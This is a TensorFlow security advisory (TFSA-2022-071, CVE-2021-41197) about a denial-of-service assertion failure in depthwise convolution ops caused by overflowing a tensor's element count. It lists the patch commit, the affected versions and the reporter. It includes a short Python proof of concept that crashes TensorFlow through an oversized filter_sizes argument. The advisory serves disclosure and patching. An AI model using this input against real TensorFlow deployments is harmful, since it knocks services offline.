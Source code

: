 ## TFSA-2022-071: `CHECK` failure in depthwise ops via overflows

### CVE Number
CVE-2021-41197

### Impact
The implementation of depthwise ops in TensorFlow is vulnerable to a denial of service via `CHECK`-failure (assertion failure) caused by overflowing the number of elements in a tensor:

```python
import tensorflow as tf

input = tf.constant(1, shape=[1, 4, 4, 3], dtype=tf.float32)
filter_sizes = tf.constant(1879048192, shape=[13], dtype=tf.int32)
out_backprop = tf.constant(1, shape=[1, 4, 4, 3], dtype=tf.float32)
tf.raw_ops.DepthwiseConv2dNativeBackpropFilter(
    input=input, filter_sizes=filter_sizes, out_backprop=out_backprop, strides=[1, 1, 1, 1], padding="SAME")
```

This is another instance of [TFSA-2021-198](https://github.com/galeone/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-198.md) (CVE-2021-41197).

### Patches
We have patched the issue in GitHub commit [3796cc4fcd93ae55812a457abc96dcd55fbb854b](https://github.com/galeone/tensorflow/commit/3796cc4fcd93ae55812a457abc96dcd55fbb854b).

The fix will be included in TensorFlow 2.9.0. We will also cherrypick this commit on TensorFlow 2.8.1, TensorFlow 2.7.2, and TensorFlow 2.6.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Neophytos Christou from Secure Systems Lab at Brown University.
